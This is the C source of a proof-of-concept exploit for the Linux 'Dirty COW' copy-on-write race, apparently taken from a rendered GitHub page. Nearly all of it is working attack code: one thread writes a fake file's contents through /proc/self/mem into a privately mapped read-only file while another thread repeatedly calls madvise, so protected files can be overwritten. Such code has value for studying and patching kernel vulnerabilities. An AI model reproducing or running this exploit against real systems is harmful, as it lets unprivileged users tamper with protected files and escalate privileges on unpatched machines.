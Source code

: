 ```C
#include <stdint.h>

struct stat dst_st, fk_st;
void * map;
char *fake_content;

void * madviseThread(void * argv);
void * writeThread(void * argv);

int main(int argc, char ** argv)
{
    if (argc < 3)
    {
        puts("usage: ./poc destination_file fake_file");
        return 0;
    }

    pthread_t write_thread, madvise_thread;

    int dst_fd, fk_fd;
    dst_fd = open(argv[1], O_RDONLY);
    fk_fd = open(argv[2], O_RDONLY);
    printf("fd of dst: %d\nfd of fk: %d\n", dst_fd, fk_fd);

    fstat(dst_fd, &dst_st); // get destination file length
    fstat(fk_fd, &fk_st); // get fake file length
    map = mmap(NULL, dst_st.st_size, PROT_READ, MAP_PRIVATE, dst_fd, 0);

    fake_content = malloc(fk_st.st_size);
    read(fk_fd, fake_content, fk_st.st_size);

    pthread_create(&madvise_thread, NULL, madviseThread, NULL);
    pthread_create(&write_thread, NULL, writeThread, NULL);

    pthread_join(madvise_thread, NULL);
    pthread_join(write_thread, NULL);

    return 0;
}

void * writeThread(void * argv)
{
    int mm_fd = open("/proc/self/mem", O_RDWR);
    printf("fd of mem: %d\n", mm_fd);
    for (int i = 0; i < 0x100000; i++)
    {
        lseek(mm_fd, (off_t) map, SEEK_SET);
        write(mm_fd, fake_content, fk_st.st_size);
    }

    return NULL;
}

void * madviseThread(void * argv)
{
    for (int i = 0; i < 0x100000; i++){
        madvise(map, 0x100, MADV_DONTNEED);
    }

    return NULL;
}
```
